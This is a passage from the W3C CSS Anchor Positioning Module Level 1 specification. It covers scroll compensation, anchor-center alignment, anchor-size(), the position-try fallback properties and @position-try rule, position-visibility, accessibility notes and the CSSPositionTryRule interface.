An **anchor recalculation point** occurs for an absolutely positioned element whenever that element begins generating boxes (aka switches from `display:none` or `display:contents` to any other `display` value), identical to when it starts running CSS animations.

An anchor recalculation point also occurs for an element when determining position fallback styles for that element; if it changes fallback styles as a result, it uses the result of the anchor recalculation point associated with the chosen set of fallback styles.

When an anchor recalculation point occurs for an element *abspos*, then for every element *anchor* referenced by one of *abspos*’s anchor references, it associates a **remembered scroll offset** equal to the *current* sum of the scroll offsets of all scroll container ancestors of *anchor*, up to but not including *abspos*’s containing block. The remembered scroll offset also accounts for other scroll-dependent positioning changes, such as `position: sticky`. If *abspos* has a default anchor element, it always calculates a remembered scroll offset for it, even if *abspos* doesn’t actually have an anchor reference to it.

All anchor references are calculated as if all scroll containers were at their initial scroll position, and then have their associated remembered scroll offset added to them.

> **Issue:** Transforms have the same issue as scrolling, so Anchor Positioning similarly doesn’t pay attention to them normally. Can we go ahead and incorporate the effects of transforms here?

The above allows a positioned element to respond to the scroll positions of its anchor references *once*, but if any of them are scrolled, the positioned element will no longer appear to be anchored to them (tho it will continue to respond to their non-scrolling movement). While this problem can’t be solved *in general*, we *can* respond to the scrolling of *one* anchor reference; specifically, the default anchor element:

An absolutely positioned box *abspos* **compensates for scroll** in the horizontal or vertical axis if both of the following conditions are true:

- *abspos* has a default anchor box.
- *abspos* has an anchor reference to its default anchor box or at least to something in the same scrolling context, aka at least one of:

  - *abspos*’s used self-alignment property value in that axis is `anchor-center`;
  - *abspos* has a non-`none` value for `position-area`
  - at least one `anchor()` function on *abspos*’s used inset properties in the axis refers to a target anchor element with the same nearest scroll container ancestor with that axis as a scrollable axis as *abspos*’s default anchor box.

> **Note:** If *abspos* has a position options list, then whether it compensates for scroll in an axis is also affected by the applied fallback style.

*abspos*’s **default scroll shift** is a pair of lengths for the horizontal and vertical axises, respectively. Each length is calculated as:

- If *abspos* is compensating for scroll in the axis, then the length is the difference between the remembered scroll offset of the default anchor element and what its current remembered scroll offset would be if it were recalculated.
- Otherwise, the length is 0.

After layout has been performed for *abspos*, it is additionally shifted by the default scroll shift, as if affected by a transform (before any other transforms).

> **Issue:** Define the precise timing of the snapshot: updated each frame, before style recalc.

> **Issue:** Similar to remembered scroll offset, can we pay attention to transforms on the default anchor element?

> **Note:** While remembered scroll offsets affect the value of `anchor()` functions, default scroll shift directly shifts the element, *after* determining the value of its inset properties, applying alignment, etc. This is *usually* indistinguishable, but cases like `round(anchor(outside), 50px)`, which transform the default anchor element’s position in a non-linear fashion, will expose the difference in behavior.

### 4. Anchor-Based Alignment {#css-anchor-position-1:alignment}

#### 4.1.  Area-specific Default Alignment {#css-anchor-position-1:position-area-alignment}

When `position-area` is not `none`, the used value of `normal` self-alignment changes depending on the `<position-area>` value, to align the box towards the anchor:

- If the only the center track in an axis is selected, the default alignment in that axis is `center`.
- If all three tracks are selected, the default alignment in that axis is `anchor-center`.
- Otherwise, the default alignment in that axis is toward the non-specified side track: if it’s specifying the “start” track of its axis, the default alignment in that axis is `end`; etc.

However, if only one inset property in the relevant axis is `auto`, the default alignment is instead towards the edge with the non-`auto` inset; and this is an `unsafe` alignment.

> **Note:** This single-`auto` behavior preserves the way a single specified inset controls the position of an absolutely positioned box.

> **Example:** For example, assuming an English-equivalent writing mode (horizontal-tb, ltr), then the value `span-x-start top` resolves to the `start` region of the vertical axis, and the `start` and `center` regions of the horizontal axis, so the default alignments will be `align-self: end` (making the box’s bottom margin edge flush with the bottom of the `top` region) and `justify-self: end` (making the box’s end-side margin edge flush with the end side of the `span-start` region).

> **Note:** If the box overflows its inset-modified containing block, but would still fit within its original containing block, by default it will “shift” to stay within its original containing block, even if that violates its normal alignment. See [CSS Box Alignment 3 § 4.4 Overflow Alignment: the safe and unsafe keywords and scroll safety limits](#css-align-3:overflow-values) for details.
>
> This behavior makes it more likely that positioned boxes remain visible and within their intended bounds, even when their containing block ends up smaller than anticipated.
>
> For example, a `position-area: bottom span-right` value lets the positioned box stretch from its anchor’s left edge to its containing block’s right edge, and left-aligns it in that space by default. But if the positioned box is larger than that space (such as if the anchor is very close to the right edge of the screen), it will shift leftwards to stay visible.

#### 4.2. Centering on the Anchor: the `anchor-center` alignment value {#css-anchor-position-1:anchor-center}

| Field | Value |
| --- | --- |
| Name: | **justify-self**, **align-self** |
| [New values:](#css-values-4:value-defs) | anchor-center |

The self-alignment properties allow an absolutely positioned box to align itself within the inset-modified containing block. The existing values, plus carefully chosen inset properties, are usually enough for useful alignment, but a common case for anchored positioning—​centering over the anchor box—​requires careful and somewhat complex set-up to achieve.

The new **anchor-center** value makes this case extremely simple: if the positioned box has a default anchor box, then it is centered (insofar as possible) over the default anchor box in the relevant axis. Additionally:

- The used value of any `auto` inset properties and `auto` margin properties resolves to `0`.

If the box is not absolutely positioned, or does not have a default anchor box, this value behaves as `center` and has no additional effect on how inset properties resolve.

> **Note:** When using `anchor-center`, by default if the anchor is too close to the edge of the box’s original containing block, it will “shift” from being purely centered, in order to remain within the original containing block. See [CSS Box Alignment 3 § 4.4 Overflow Alignment: the safe and unsafe keywords and scroll safety limits](#css-align-3:overflow-values) for more details.

### 5. Anchor-Based Sizing {#css-anchor-position-1:sizing}

An absolutely positioned box can use the **anchor-size()** function in its sizing properties to refer to the size of one or more anchor boxes. The `anchor-size()` function resolves to a `<length>`. It is only allowed in the accepted @position-try properties (and is otherwise invalid).

#### 5.1. The `anchor-size()` Function {#css-anchor-position-1:anchor-size-fn}

| Field | Value |
| --- | --- |
| Name: | `block-size`, `inline-size`, `width`, `height`, `min-block-size`, `min-inline-size`, `min-width`, `min-height`, `max-block-size`, `max-inline-size`, `max-width`, `max-height`, `top`, `left`, `right`, `bottom`, `margin-top`, `margin-left`, `margin-right`, `margin-bottom` |
| [New values:](#css-values-4:value-defs) | `<anchor-size()>` |

```css
anchor-size() = anchor-size( [ <anchor-name> || <anchor-size> ]? , <length-percentage>? )
<anchor-size> = width | height | block | inline | self-block | self-inline
```

The `anchor-size()` function is similar to `anchor()`, and takes the same arguments, save that the `<anchor-side>` keywords are replaced with `<anchor-size>`, referring to the distance between two opposing sides.

The physical `<anchor-size>` keywords (**width** and **height**) refer to the width and height, respectively, of the target anchor element. Unlike `anchor()`, there is no restriction on having to match axises; for example, `width: anchor-size(--foo height);` is valid.

The logical `<anchor-size>` keywords (**block**, **inline**, **self-block**, and **self-inline**) map to one of the physical keywords according to either the writing mode of the box (for `self-block` and `self-inline`) or the writing mode of the box’s containing block (for `block` and `inline`).

If the `<anchor-size>` keyword is omitted, it defaults to behaving as whatever keyword matches the axis of the property that `anchor-size()` is used in. (For example, `width: anchor-size()` is equivalent to `width: anchor-size(width)`.)

An `anchor-size()` function representing a resolvable anchor-size function resolves at computed value time (via style & layout interleaving) to the `<length>` separating the relevant edges (either left and right, or top and bottom, whichever is in the specified axis) of the target anchor element’s anchor box.

##### 5.1.1.  Resolution of `anchor-size()` {#css-anchor-position-1:anchor-size-resolution}

An `anchor-size()` function is a **resolvable anchor-size function** only if all the following conditions are true:

- It’s applied to an absolutely positioned box.
- There is a target anchor element for the box it’s used on, and the `<anchor-name>` value specified in the function.

If any of these conditions are false, the `anchor-size()` function resolves to its specified fallback value. If no fallback value is specified, it makes the declaration referencing it invalid at computed-value time.

### 6. Overflow Management {#css-anchor-position-1:fallback}

Anchor positioning, while powerful, can also be unpredictable. The anchor box might be anywhere on the page, so positioning a box in any particular fashion (such as above the anchor, or the right of the anchor) might result in the positioned box overflowing its containing block or being positioned partially off screen.

To ameliorate this, an absolutely positioned box can use the `position-try-fallbacks` property to specify additional **position options** (variant sets of positioning/alignment properties generated from the box’s existing styles, or specified in `@position-try` rules) that the UA can try if the box overflows its initial position. Each position option is applied to the box, one by one in the order specified by `position-try-order`, and the first that doesn’t cause the box to overflow its containing block is taken as the winner.

Once an option has been chosen, the element keeps those styles until it overflows again, even if an earlier (and presumably more desirable) option again becomes available without causing overflow. (See record the last successful position option.)

> **Example:** For example, the following CSS will first attempt to position a "popover" below the element, but if it doesn’t fit on-screen will switch to being above. It defaults to start-aligning with the anchor, but will switch to end-aligning if that doesn’t fit. If it doesn’t fit on *either* side, it will take the whole horizontal space, while centering on the anchor as much as possible (thanks to [§ 4.1 Area-specific Default Alignment](#css-anchor-position-1:position-area-alignment)).
>
> ```
> #myPopover {
>   position: fixed;
>   position-anchor: --button;
>   position-area: bottom span-x-end;
>   position-try-fallbacks: flip-x, flip-y, flip-x flip-y, bottom, top;
>
>   /* The popover is at least as wide as the button */
>   min-width: anchor-size(width);
>
>   /* The popover is at least as tall as 2 menu items */
>   min-height: 6em;
> }
> ```
>
> > **Issue:** Add a picture!

#### 6.1. Giving Fallback Options: the `position-try-fallbacks` property {#css-anchor-position-1:position-try-fallbacks}

| Field | Value |
| --- | --- |
| Name: | **position-try-fallbacks** |
| [Value:](#css-values-4:value-defs) | none \| [ [`<dashed-ident>` \|\| `<try-tactic>`] \| `<position-area>` ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | absolutely positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property provides a list of additional, alternative position options to try in order to prevent the absolutely positioned box from overflowing its inset-modified containing block.

Each comma-separated entry in the list is a separate position option: either the name of a `@position-try` block, or a `<try-tactic>` representing an automatic transformation of the box’s existing computed style (its **fallback base styles**). Together with the fallback base styles, these options form the **position options list** from which the effective style is chosen, see [§ 6.5 Applying Position Fallback](#css-anchor-position-1:fallback-apply).

Values have the following meanings:

****none****

: The property has no effect; the box’s position options list consists only of the fallback base styles.

****`<dashed-ident>`****

: If there is a `@position-try` rule with the given name, its associated position option is added to the position options list.

  Otherwise, this value has no effect.

****`<try-tactic>`****

: Automatically creates a position option by executing the specified try tactic on the box’s base styles, then adding this constructed position option to the box’s position options list.

  ```css
  <try-tactic> = flip-block || flip-inline || flip-start || flip-x || flip-y
  ```

  ****flip-block****

  : swaps the values in the block axis (between, for example, `margin-block-start` and `margin-block-end`), essentially mirroring across an inline-axis line.

  ****flip-inline****

  : swaps the values in the inline axis, essentially mirroring across a block-axis line.

  ****flip-x****

  : swaps the values in the horizontal axis (between, for example, `margin-left` and `margin-right`), essentially mirroring across a vertical-axis line.

  ****flip-y****

  : swaps the values in the vertical axis, essentially mirroring across a horizontal-axis line.

  ****flip-start****

  : swaps the values of the start properties with each other, and the end properties with each other (between, for example, `margin-block-start` and `margin-inline-start`), essentially mirroring across a diagonal drawn from the start-start corner to the end-end corner.

  If multiple keywords are given, the transformations are composed in order to produce a single position option. Logical directions are resolved against the writing mode of the containing block.

****`<dashed-ident>` || `<try-tactic>`****

: Combines the effects of the previous two options: if there is a `@position-try` rule with the given name, applies its position option to the base style, then transforms it according to the specified `<try-tactic>` and adds the result to the box’s position options list.

  Otherwise, does nothing.

****`<position-area>`****

: Automatically creates a position option composed solely of a `position-area` property with the given value.

#### 6.2. Determining Fallback Order: the `position-try-order` property {#css-anchor-position-1:position-try-order-property}

| Field | Value |
| --- | --- |
| Name: | **position-try-order** |
| [Value:](#css-values-4:value-defs) | normal \| `<try-size>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | absolutely positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows an element to sort its position option list by the available space they produce. This allows the box to prioritize having more layout space over strictly following the order declared in `position-try-fallbacks`.

```css
<try-size> = most-width | most-height | most-block-size | most-inline-size
```

****normal****

: Try the position options in the order specified by `position-try-fallbacks`.

****most-width** **most-height** **most-block-size** **most-inline-size****

: For each entry in the position options list, apply that position option to the box, and find the inset-modified containing block size that results from those styles (treating `auto` `inset` values as zero). Stably sort the position options list according to this size, with the largest coming first.

  Logical directions are resolved against the writing mode of the containing block.

> **Example:** For example, the following styles will initially position the popup list either above or below its anchoring button, depending on which option gives it the most space.
>
> ```
> .anchor { anchor-name: --foo; }
> .list {
>   position: fixed;
>   position-anchor: --foo;
>   position-area: block-end span-inline-end;
>   position-try-fallbacks: --bottom-scrollable, flip-block, --top-scrollable;
>   position-try-order: most-height;
> }
> @position-try --bottom-scrollable {
>   align-self: stretch;
> }
> @position-try --top-scrollable {
>   position-area: block-start span-inline-end;
>   align-self: stretch;
> }
> ```
>
> The base styles and the `--bottom-scrollable` option have the same available height, since in both cases the inset-modified containing block stretches from the anchor to the edge of the containing block. Likewise the `flip-block` option and the `--top-scrollable` options have the same available height. Because `position-try-order` uses a stable sort, these pairs will each retain their relative positions in the list, with the `*-scrollable` option coming later; and the pair that has the most space available will come first.
>
> This causes the box to first try to align against the anchor at its natural height on whichever side is larger (using the base styles or `flip-block` styles) but if that causes overflow, it’ll fall back to just filling the same space and being scrollable instead (using the matching `*-scrollable` styles), thus never overflowing and trying to move to the smaller space.

#### 6.3. The `position-try` Shorthand {#css-anchor-position-1:position-try-prop}

| Field | Value |
| --- | --- |
| Name: | **position-try** |
| [Value:](#css-values-4:value-defs) | `<'position-try-order'>`? `<'position-try-fallbacks'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand sets both `position-try-fallbacks` and `position-try-order`. If <'position-try-order'> is omitted, it’s set to the property’s initial value.

#### 6.4. The `@position-try` Rule {#css-anchor-position-1:fallback-rule}

The **@position-try** rule defines a position option with a given name, specifying one or more sets of positioning properties that can be applied to a box via `position-try-fallbacks`.

The syntax of the `@position-try` rule is:

```css
@position-try <dashed-ident> {
  <declaration-list>
}
```

The `<dashed-ident>` specified in the prelude is the rule’s name. If multiple `@position-try` rules are declared with the same name, they cascade (overriding each other) the same as `@keyframes` rules do.

The `@position-try` rule only accepts the following **accepted @position-try properties**:

- inset properties
- margin properties
- sizing properties
- self-alignment properties
- `position-anchor`
- `position-area`

It is invalid to use `!important` on the properties in the `<declaration-list>`. Doing so causes the property it is used on to become invalid, but does not invalidate the `@property-try` rule as a whole.

All of the properties in a `@position-try` are applied to the box as part of the **Position Fallback Origin**, a new cascade origin that lies between the Author Origin and the Animation Origin.

Similar to the Animation Origin, use of the `revert` value acts as if the property was part of the Author Origin, so that it instead reverts back to the User Origin. (As with the Animation Origin, however, `revert-layer` has no special behavior and acts as specified.)

> **Note:** The accepted @position-try properties are the smallest group of properties that affect just the size and position of the box itself, without otherwise changing its contents or styling. This significantly simplifies the implementation of position fallback while addressing the fundamental need to move an anchor-positioned box in response to available space. Since these rules override normal declarations in the Author Origin, this also limits the poor interactions of `@position-try` declarations with the normal cascading and inheritance of other properties. It is expected that a future extension to container queries will allow querying an element based on the position fallback it’s using, enabling the sort of conditional styling not allowed by this restricted list.

> **Note:** If multiple elements want to use the same `@position-try` rules, but relative to their own anchor elements, omit the `<anchor-name>` in `anchor()` and specify each box’s anchor in `position-anchor` instead.

> **Note:** The most common types of fallback positioning (putting the positioned box on one side of the anchor normally, but flipping to the opposite side if needed) can be done automatically with keywords in `position-try-fallbacks`, without using `@position-try` at all.

#### 6.5. Applying Position Fallback {#css-anchor-position-1:fallback-apply}

When a positioned box (after applying any default scroll shift) overflows its inset-modified containing block, and has more than one position option in its position options list, it determines position fallback styles to attempt to find an option that avoids overflow. The resulting styles are applied to the element via interleaving, so they affect computed values (and can trigger transitions/etc) even though they depend on layout and used values.

Implementations may choose to impose an implementation-defined limit on the length of position options lists, to limit the amount of excess layout work that may be required. This limit must be *at least* five.

To **determine position fallback styles** for an element *abspos*:

1. Let *current styles* be the current used styles of *abspos*, as derived from the computed base style (which might be the result of earlier fallback).
2. For each *option* in the position options list:

  1. If *option* is currently *abspos*’s last successful position option, continue.
  2. Let *adjusted styles* be the result of applying a position option *option* to *abspos*.
  3. Let *el rect* be the size and position of *abspos*’s margin box, and *cb rect* be the size and position of *abspos*’s inset-modified containing block, when laid out with *adjusted styles*.
  4. If *cb rect* was negative-size in either axis and corrected into zero-size, continue.

     > **Note:** This prevents a zero-size *el rect* from still being considered "inside" a negative-size *cb rect* and getting selected as a successful option.
  5. If *el rect* is not fully contained within *cb rect*, continue.
  6. Return *adjusted styles*, along with the associated set of remembered scroll offsets that were hypothetically calculated for them.
3. Assert: The previous step finished without finding a position option that avoids overflow.
4. Return *current styles*.

> **Note:** Descendants overflowing *el* don’t affect this calculation, only *el*’s own margin box.

> **Note:** Because we purposely skip the position option currently in effect, it doesn’t get its remembered scroll offsets updated; if none of the other fallbacks work and we stick with the current styles, all the remembered scroll offsets stay the same.

During a full layout pass, once a box has determined its fallback styles (or determined it’s not using any), laying out later boxes cannot change this decision.

> **Example:** For example, say you have two positioned boxes, A and B, with A laid out before B. If B overflows and causes A’s containing block to gain scrollbars, this *does not* cause A to go back and re-determine its fallback styles in an attempt to avoid overflowing. (At best, this can result in exponential layout costs; at worst, it’s cyclic and will never settle.)
>
> Layout does not "go backward", in other words.

##### 6.5.1.  Maintaining and Clearing Fallback Choices {#css-anchor-position-1:statefulness}

Some changes to a box have a particularly direct effect on determining position fallback styles and thus trigger special behavior. These **fallback-sensitive changes** include:

- Its computed `position` value has changed, its containing block association has changed, or it no longer generates a box.
- Its computed value for any longhand of `position-try` has changed.
- Its computed value for any accepted @position-try property has changed.
- Any of the `@position-try` rules referenced by it have been added, removed, or mutated.

For this purpose, only changes to the **computed base style** are considered, i.e. the computed value ignoring any declarations originating from the Transitions or Animations cascade origins.

###### 6.5.1.1.  Recording the last successful position option {#css-anchor-position-1:last-successful-recording}

In order to maintain layout stability as much as possible, determining position fallback styles prioritizes the last successful position option, which is determined as follows:

At the time that `ResizeObserver` events are determined and delivered, the box must **record the last successful position option** as follows:

- If *el* has a last successful position option remove its last successful position option if any fallback-sensitive changes have occurred. Then, determine position fallback styles for *el* and set its last successful position option to the set of accepted @position-try properties (and values) that it’s now using.
- Otherwise, if a box *el* is absolutely positioned, set its **last successful position option** to the set of accepted @position-try properties (and values) that it’s currently using.

> **Note:** The timing of this recording/removal is intentionally identical to the treatment of last remembered sizes.

##### 6.5.2.  Applying Position Options {#css-anchor-position-1:applying-options}

To **apply a position option** to a box’s element *el*, given a position option *new styles*:

1. With *new styles* inserted into the cascade in the position fallback origin, resolve the cascade, and perform enough layout to determine *el*’s used styles.

   For the purpose of calculating these styles, a *hypothetical* anchor recalculation point is calculated, and the resulting hypothetical remembered scroll offsets are used to determine *el*’s styles.
2. Return *el*’s used styles.

To **execute a try-tactic** to a set of *styles* of a box’s element *el*, between two directions *directions*, returning a set of transformed styles:

1. If *directions* are opposites along the same axis, they are “opposing”. Otherwise (when they are specifying different axises), they are “perpendicular”.
2. Determine the specified values of the accepted @position-try properties on *el*, and let *styles* be the result.
3. Substitute variables, `env()` functions, and similar arbitrary substitution functions in *styles*.

   For `env()` functions, if the referenced environment variable is associated with a direction or axis (such as `safe-area-inset-top`), switch the referenced environment variable corresponding to *directions*.

   > **Example:** For example, if `top: env(safe-area-inset-top);` is specified, and *directions* are up and left, the `env()` will resolve as if `env(safe-area-inset-left)` had been specified instead. (And then, in the next step, will actually swap into the `left` property.)
4. Swap the values of the *styles* between the associated properties corresponding to *directions*.

   > **Example:** For example, if "top" and "left" are being swapped, then the values of `margin-top` and `margin-left` are swapped, `width` and `height` are swapped, etc.

   > **Note:** If the directions are opposites along the same axis, some properties (like `width` or `align-self`) wont' swap, since they’re associated with themselves across the two directions, but their values might be changed by the next step.
5. Modify the values of the properties as they swap to match the new directions, as follows:

  - For inset properties, change the specified side in `anchor()` functions to maintain the same relative relationship to the new direction that they had to the old.

    If a `<percentage>` is used, and *directions* are opposing, change it to `100%` minus the original percentage.

    > **Example:** For example, if "top" and "left" are being swapped, then `margin-top: anchor(bottom)` will become `margin-left: anchor(right)`.
    >
    > If "top" and "bottom" are being swapped, then `margin-top: anchor(20%)` will become `margin-bottom: anchor(80%)`.
  - For sizing properties, change the specified axis in `anchor-size()` functions to maintain the same relative relationship to the new direction that they had to the old.

    > **Example:** For example, if "top" and "left" are being swapped, then `width: anchor-size(width)` will become `height: anchor-size(height)`.
  - For the self-alignment properties, if *directions* are opposing, change the specified `<self-position>` (or `left`/`right` keywords), if any, to maintain the same relative relationship to the new direction that they had to the old.

    > **Example:** For example, if "top" and "bottom" are being swapped, then `align-self: start` will become `align-self: end`.
    >
    > However, `align-self: center` will remain unchanged, as it has the same relationship to both directions.
    >
    > Similarly, `align-self: first baseline` will remain unchanged, as it’s a `<baseline-position>` rather than a `<self-position>`.
  - For `position-area`, change the value so that the selected rows/columns of the position-area grid maintain the same relative relationship to the new direction that they had to the old.

    > **Example:** For example, if "top" and "left" are being swapped, then `position-area: left span-bottom` will become `position-area: top span-right`.
6. Return *styles*.

#### 6.6. Conditional Hiding: the `position-visibility` property {#css-anchor-position-1:position-visibility}

| Field | Value |
| --- | --- |
| Name: | **position-visibility** |
| [Value:](#css-values-4:value-defs) | always \| [ anchor-valid \|\| anchor-visible \|\| no-overflow ] |
| [Initial:](#css-cascade-6:initial-values) | anchor-visible |
| [Applies to:](#css-cascade-5:applies-to) | absolutely positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

There are some conditions in which it might not make sense to display an absolutely positioned box. This property allows such boxes to be made conditionally visible, depending on some commonly needed layout conditions.

****always****

: This property has no effect. (The box is displayed without regard for its anchors or its overflowing status.)

****anchor-valid****

: If the box references the default anchor box (e.g. using `position-area`, 'anchor()' or 'anchor-size()' functions, or `anchor-center`), but the default anchor box cannot be resolved, the box’s `visibility` property computes to `force-hidden`.

****anchor-visible****

: If the box has a default anchor box but that anchor box is invisible or clipped by intervening boxes, the box’s `visibility` property computes to `force-hidden`.

****no-overflow****

: If the box overflows its inset-modified containing block even after applying `position-try`, the box’s `visibility` property computes to `force-hidden`.

An anchor box *anchor* is **clipped by intervening boxes** relative to a positioned box *abspos* relying on it if *anchor*’s ink overflow rectangle is fully clipped by a box which is an ancestor of *anchor* but a descendant of *abspos*’s containing block. Clipping in this case refers only to the same clipping effects that are (by default) checked by `IntersectionObserver`, i.e. clipping due to `clip-path`, `overflow`, or other effects (such as paint containment) that clip to the overflow clip edge. If *anchor* has non-zero area, it must also have a non-zero intersection area to be considered not fully clipped.

Whether or not *anchor* is clipped by intervening boxes must be checked after updating content relevancy for a document (see `content-visibility` in [css-contain-2]) and running any `ResizeObserver`, but before running any `IntersectionObserver`. It may also be checked at other times to improve responsiveness.

> **Note:** This means that if an abspos is next to its anchor in the DOM, for example, it’ll remain visible even if its default anchor is scrolled off, since it’s clipped by the same scroller anyway.

> **Issue:** Make sure this definition of clipped is consistent with View Transitions, which wants a similar concept.

> **Note:** This ensures that in a “chained anchor” situation, if the first abspos is hidden due to this property (due to its anchor being scrolled off), then another abspos using it as an anchor will also be hidden, rather than *also* floating in a nonsensical location.

User agents may recognize `anchors-valid` and `anchors-visible` as legacy value aliases of `anchor-valid` and `anchor-visible` (but are not required to).

### 7. Accessibility Implications {#css-anchor-position-1:accessibility}

**CSS Anchor Positioning does not create, delete, or alter any accessibility bindings between elements. Authors must use appropriate markup features to control such bindings.**

Because it can be used in many different ways for many different use cases, CSS Anchor Positioning does not automatically establish any semantic relationship between a positioned box and any of its anchors. For example, the *visual* anchoring relationship in a design might be between an element and its *semantic* anchor, or it might connect the element to an ancestor, sibling, or descendant of the semantic anchor, depending on the desired visual effect. Siimilarly, a design might opt out of a visual anchoring relationship even while there is a semantic one, or vice versa.

Authors must not rely on the visual connections implied by CSS positioning to link elements together semantically. Without appropriate markup, the elements linked visually have *no* meaningful DOM relationship—​which if there *is* a meaningful relationship, can make them difficult or impossible to use in non-visual user agents, like screen readers, or in non-graphical navigation modes, such as tab navigation.

Many features on the web platform, both existing and upcoming, allow establishing semantic connections explicitly, so that non-visual user agents can also benefit. For example, the [Popover API in HTML](https://html.spec.whatwg.org/multipage/popover.html#the-popover-attribute) automatically links the invoker button to the popover element, including automatically adjusting tabbing order; it *also* establishes the invoker button as the implicit anchor element for the popover, making it easy to use Anchor Positioning as well.

> **Issue:** Add a popover example.

In more general cases, ARIA features such as the [`aria-details`](https://w3c.github.io/aria/#aria-details) or [`aria-describedby`](https://w3c.github.io/aria/#aria-describedby) attributes on an anchor element can create connections in a slightly more manual fashion. In concert with the `role` attribute on the positioned element, it allows non-visual user agents to tell their users about the relationship between the elements and let them automatically navigate between them.

However, authors should not overuse such features either, since overburdening the page with extra, unnecessary semantic connections can also make the page difficult to comprehend.

> **Issue:** Suggestions for ways to improve this section, especially author guidance and examples of best practices for common use cases, is welcome. [[Issue #10311]](https://github.com/w3c/csswg-drafts/issues/10311)

### 8. DOM Interfaces {#css-anchor-position-1:interfaces}

#### 8.1. The CSSPositionTryRule interface {#css-anchor-position-1:om-position-try}

The `CSSPositionTryRule` interface represents the `@position-try` rule:

```webidl
[Exposed=Window]
interface CSSPositionTryRule : CSSRule {
  readonly attribute CSSOMString name;
  [SameObject, PutForwards=cssText] readonly attribute CSSPositionTryDescriptors style;
};

[Exposed=Window]
interface CSSPositionTryDescriptors : CSSStyleDeclaration {
  attribute CSSOMString margin;
  attribute CSSOMString marginTop;
  attribute CSSOMString marginRight;
  attribute CSSOMString marginBottom;
  attribute CSSOMString marginLeft;
  attribute CSSOMString marginBlock;
  attribute CSSOMString marginBlockStart;
  attribute CSSOMString marginBlockEnd;
  attribute CSSOMString marginInline;
  attribute CSSOMString marginInlineStart;
  attribute CSSOMString marginInlineEnd;
  attribute CSSOMString margin-top;
  attribute CSSOMString margin-right;
  attribute CSSOMString margin-bottom;
  attribute CSSOMString margin-left;
  attribute CSSOMString margin-block;
  attribute CSSOMString margin-block-start;
  attribute CSSOMString margin-block-end;
  attribute CSSOMString margin-inline;
  attribute CSSOMString margin-inline-start;
  attribute CSSOMString margin-inline-end;
  attribute CSSOMString inset;
  attribute CSSOMString insetBlock;
  attribute CSSOMString insetBlockStart;
  attribute CSSOMString insetBlockEnd;
  attribute CSSOMString insetInline;
  attribute CSSOMString insetInlineStart;
  attribute CSSOMString insetInlineEnd;
  attribute CSSOMString top;
  attribute CSSOMString left;
  attribute CSSOMString right;
  attribute CSSOMString bottom;
  attribute CSSOMString inset-block;
  attribute CSSOMString inset-block-start;
  attribute CSSOMString inset-block-end;
  attribute CSSOMString inset-inline;
  attribute CSSOMString inset-inline-start;
  attribute CSSOMString inset-inline-end;
  attribute CSSOMString width;
  attribute CSSOMString minWidth;
  attribute CSSOMString maxWidth;
  attribute CSSOMString height;
  attribute CSSOMString minHeight;
  attribute CSSOMString maxHeight;
  attribute CSSOMString blockSize;
  attribute CSSOMString minBlockSize;
  attribute CSSOMString maxBlockSize;
  attribute CSSOMString inlineSize;
  attribute CSSOMString minInlineSize;
  attribute CSSOMString maxInlineSize;
  attribute CSSOMString min-width;
  attribute CSSOMString max-width;
  attribute CSSOMString min-height;
  attribute CSSOMString max-height;
  attribute CSSOMString block-size;
  attribute CSSOMString min-block-size;
  attribute CSSOMString max-block-size;
  attribute CSSOMString inline-size;
  attribute CSSOMString min-inline-size;
  attribute CSSOMString max-inline-size;
  attribute CSSOMString placeSelf;
  attribute CSSOMString alignSelf;
  attribute CSSOMString justifySelf;
  attribute CSSOMString place-self;
  attribute CSSOMString align-self;
  attribute CSSOMString justify-self;
  attribute CSSOMString positionAnchor;
  attribute CSSOMString position-anchor;
  attribute CSSOMString positionArea;
  attribute CSSOMString position-area;
};
```

Its **`name`** attribute represents the name declared in the rule’s prelude.

Its **`style`** attribute represents the properties declared in the rule’s body, in the specified order. On getting, it must return a `CSSPositionTryDescriptors` object for the `@position-try` at-rule, with the following properties:

**computed flag**

: Unset

**readonly flag**

: Unset

**declarations**

: The declared descriptors in the rule, in specified order.

**parent CSS rule**

: The context object

**owner node**

: Null

### 9.  Appendix: Style & Layout Interleaving {#css-anchor-position-1:interleaving}

**Style & layout interleaving** is a technique where a style update can occur on a subtree during the layout process, resulting in retroactive updates to elements’ computed styles.

> **Issue:** This is not the correct spec for this concept, it should probably go in [Cascade](#css-cascade-6), but I need a sketch of it to refer to.

> **Note:** Style & layout interleaving is already used with container queries and container query lengths. A length like `10cqw` is resolved into a computed length using layout information about the query container’s size, which can thus trigger [transitions](#css-transitions-1) when the container changes size between layouts.

The accepted @position-try properties are also interleaved when resolving fallback (see `position-try`).

> **Issue:** Obviously this needs way more details filled in, but for now "act like you already do for container queries" suffices. That behavior is also undefined, but at least it’s interoperable (to some extent?).

---

## CSS Anchor Positioning Module Level 2 {#css-anchor-position-2}

- **Shortname:** `css-anchor-position-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-anchor-position-2/](https://drafts.csswg.org/css-anchor-position-2/)
- **Published TR:** [https://www.w3.org/TR/css-anchor-position-2/](https://www.w3.org/TR/css-anchor-position-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-10-24
- **Diff Specification Over:** [CSS Anchor Positioning Module Level 1 (`css-anchor-position-1`)](#css-anchor-position-1)

